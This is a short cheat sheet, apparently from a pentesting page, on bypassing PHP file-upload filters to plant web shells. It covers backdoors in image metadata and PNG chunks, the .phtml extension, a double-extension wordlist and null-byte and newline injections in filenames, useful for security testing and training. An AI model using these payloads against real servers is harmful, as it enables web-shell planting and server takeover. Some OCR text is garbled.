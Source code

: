 ```
# Add backdoor in comments using Exiftool and 
upload.php [getimagesize() 
# rename the jpg file with php so that it will be execute. This Time The Verification of server is only limited to contents of the uploaded file not on the extension

# backdoor in php chunks
phppng.png 

# backdoor in php chunks 
xsspng.png 

# Use the .phtml extension, which PHP web servers often allow for code execution rights.
shelly.phtml
```

Dictionary for double extensions: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst):

```
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

Dictionary for character injection, following this syntax ->  `shell.phpFUZZ.jpg`:

```
%20
%0a
%00
%0d0a
/
.\
.
…
:
```
